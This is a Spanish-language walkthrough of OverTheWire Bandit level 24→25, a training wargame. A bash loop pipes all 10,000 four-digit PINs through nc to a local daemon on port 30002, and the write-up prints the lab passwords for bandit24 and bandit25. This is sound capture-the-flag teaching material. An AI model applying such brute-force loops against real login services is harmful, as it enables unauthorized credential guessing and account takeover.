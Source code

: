 # Bandit Level 24 → Level 25

## Objetivo
Un demonio está escuchando en el puerto 30002 y te dará la contraseña para bandit25 si se le da la contraseña para bandit24 y un código secreto numérico de 4 dígitos. No hay forma de recuperar el código PIN, excepto repasando todas las 10000 combinaciones, lo que se denomina forzar bruscamente.
No es necesario crear nuevas conexiones cada vez.

## Datos de acceso al nivel
bandit.labs.overthewire.org
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 3523
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 2346
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

## Notas adicionales
| Comando | Descripción |
|--------|--------|
| {0000..9999} | Recorre todas las posibles combinaciones en el rango establecido |

## Referencias
[Shell Scripting Tutorial](https://www.shellscript.sh/)
